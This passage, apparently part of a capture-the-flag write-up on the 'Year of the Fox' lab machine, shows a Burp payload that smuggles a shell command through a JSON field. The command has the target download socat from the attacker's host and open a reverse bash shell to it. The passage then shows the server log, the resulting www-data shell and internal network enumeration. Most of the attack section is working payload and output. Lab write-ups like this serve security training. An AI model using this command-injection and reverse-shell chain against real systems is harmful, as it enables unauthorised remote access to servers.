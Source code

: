 ![image.png](image%205.png)

**BURP PAYLOAD**:

```bash
{"target":"\"; wget -q http://10.2.37.37:8000/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.2.37.37:13232; ecoh \""}
```

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.163.252 - - [10/Sep/2024 07:59:01] "GET /socat HTTP/1.1" 200 -
```

```bash
www-data@year-of-the-fox:/var/www/html/assets/php$ whoami
www-data
www-data@year-of-the-fox:/var/www/html/assets/php$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@year-of-the-fox:/var/www/html/assets/php$ pwd
/var/www/html/assets/php
www-data@year-of-the-fox:/var/www/html/assets/php$ 

```

> **Inner-Network Enumeration & SSH Port Forwarding**
> 

```bash
www-data@year-of-the-fox:/var/www/html/assets/php$ netstat -tulwn

Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN     
tcp6       0      0 :::445                  :::*                    LISTEN     
tcp6       0      0 :::139                  :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 10.10.163.252:68        0.0.0.0:*                          
```